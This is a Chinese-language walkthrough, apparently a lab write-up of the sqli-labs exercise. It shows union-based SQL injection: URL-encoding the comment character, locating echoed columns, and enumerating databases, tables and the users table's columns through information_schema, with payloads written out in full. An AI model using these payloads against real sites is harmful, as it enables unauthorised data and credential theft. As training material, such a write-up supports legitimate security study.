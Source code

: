 这里发现给的教程中是用--+起到注释之后语句的作用，用#会报错：

![image-20211207084742232](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020051370.png)

这里查到是因为`url中#号是用来指导浏览器动作的（例如锚点），对服务器端完全无用，所以HTTP请求中不包括#`。

将#号改成url的编码`%23`即可。

![image-20211207085006752](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020051970.png)

#### 确定查询回显位置

`id=-1' union select 1,2,3%23`

其中，-1 的作用是查询不存在的值，使得结果为空。

![image-20211207085041517](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052813.png)

根据页面回显，可在`2`或`3`的位置加入想要查询的内容。



#### `database()`查询当前的数据库

`id=-1' union select 1,2,database()%23`

![image-20211207085303139](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052358.png)

当前数据库为：security

也可以通过：`id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata%23`查询所有数据库：

![image-20211207085609533](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052818.png)



#### 获取数据库中的table

`id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() %23`

![image-20211207085716049](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052856.png)

security数据库中共有4张表：emails,referers,uagents,users

#### 获取表中的字段

`id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'%23`

![image-20211207090008119](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052379.png)

users表中有三个字段：id,username,password

#### 获得字段中的数据

通过`group_concat()`函数聚合，使得一个字段中显示多个表项：
